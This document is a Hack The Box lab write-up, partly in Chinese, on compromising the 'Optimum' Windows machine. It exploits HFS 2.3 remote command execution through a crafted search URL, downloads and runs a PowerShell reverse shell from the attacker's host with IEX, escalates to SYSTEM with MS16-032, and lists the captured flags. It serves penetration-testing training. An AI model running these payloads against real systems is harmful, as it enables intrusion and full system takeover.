

**Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.**

```
Optimum 是一个初级机器，主要关注具有已知漏洞的服务的枚举
这两种漏洞利用都很容易获得，并且都有关联的 Metasploit 模块，使得这台机器相当容易完成
```


## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.207.74 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.207.74

ORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
```

### <span style="color:lightgreen">Foothold</span>

```
searchsploit HttpFileServer
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
```

### <span style="color:lightgreen">POC</span>

```
验证ping 主机查看是否有icmp 数据包
```

```
http://10.129.207.74/?search=%00{.+exec|powershell.exe+/c+ping+-n+1+10.10.14.16.}
```

```
sudo tcpdump -i tun0 icmp and src 10.129.207.74
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:07:47.365235 IP 10.129.207.74 > 10.10.14.16: ICMP echo request, id 1, seq 1, length 40
12:07:47.365428 IP 10.129.207.74 > 10.10.14.16: ICMP echo request, id 1, seq 2, length 40
12:07:47.367441 IP 10.129.207.74 > 10.10.14.16: ICMP echo request, id 1, seq 3, length 40
12:07:47.377411 IP 10.129.207.74 > 10.10.14.16: ICMP echo request, id 1, seq 4, length 40
```

```
漏洞存在
```

### <span style="color:lightgreen">Shell</span>

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

在末尾加入以下命令

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

```
http://10.129.207.74/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.16:8000/rev.ps1').}
```

```
sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.207.74.
Ncat: Connection from 10.129.207.74:49171.
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
optimum\kostas
```

## <span style="color:lightblue">Privilege Escalation — using MS16–032 exploit</span>
### <span style="color:lightgreen">Windows Exploit Suggester</span>

```
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          1/5/2024, 9:58:02 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.508 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.959 MB
Virtual Memory: In Use:    544 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.207.74
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

```
https://github.com/bitsadmin/wesng
```

```
./wes.py --update

./wes.py systeminfo.txt

东西很乱 

存在CVE-2016-0099 MS16-032 本地提权漏洞
```

```
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/rev.ps1')"

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

在末尾加入以下命令

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1')
```

```
不知道啥情况 无法成功利用
```

```
HFS 进程有可能是32位

PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False

获取一个64位的shell

http://10.129.207.74/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.16:8000/rev.ps1').}

PS C:\Users\kostas\Desktop>[Environment]::Is64BitProcess
True
```

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

```
sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.207.74.
Ncat: Connection from 10.129.207.74:49193.
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
```

### <span style="color:lightgreen">user.txt</span>

```
PS C:\Users\kostas\Desktop> dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         18/3/2017   2:11 ??     760320 hfs.exe                           
-ar--          1/5/2024   9:58 ??         34 user.txt                          


PS C:\Users\kostas\Desktop> whoami
nt authority\system
PS C:\Users\kostas\Desktop> type user.txt
159b8ad83a40543c9a9be97657a19cd4
```

### <span style="color:lightgreen">root.txt</span>

```
PS C:\Users\administrator\desktop> type root.txt
20814571350dd6c7e21c1831aef74707
```

## <span style="color:lightblue">Metasploit</span>

```
whatweb -a3 http://10.129.207.74 -v

rejetto

windows/http/rejetto_hfs_exec

(Meterpreter 1)(C:\Users\kostas\Desktop) > getuid 
Server username: OPTIMUM\kostas

ps

 1812  808   hrrlepQhM.exe            x86   1        OPTIMUM\kostas  C:\Users\kostas\AppData\Local\Temp\radF53E0.tmp\hrrlepQhM.exe


迁移进程

(Meterpreter 1)(C:\Users\kostas\Desktop) > migrate 1980
[*] Migrating from 1812 to 1980...
[*] Migration completed successfully.

multi/recon/local_exploit_suggester

exploit/windows/local/ms16_032_secondary_logon_handle_privesc

set payload windows/x64/meterpreter/reverse_tcp

(Meterpreter 2)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

